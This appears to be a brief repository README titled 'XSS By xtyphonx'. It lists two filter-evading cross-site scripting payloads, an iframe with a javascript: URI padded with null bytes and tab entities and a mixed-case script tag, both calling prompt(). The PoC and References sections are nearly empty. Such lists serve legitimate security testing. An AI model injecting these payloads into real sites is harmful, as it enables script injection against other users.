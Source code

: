 ### XSS By xtyphonx


##### PoC : 

stored xss PoC


#### XSS Payload List :

```

<!--        Author : https://hackerone.com/xtyphonx -->


<iframe %00 src="&Tab;javascript:prompt(xss)&Tab;"%00>
<ScRipT 5-0*3+9/3=>prompt(1)</ScRipT giveanswerhere=?




#### References :


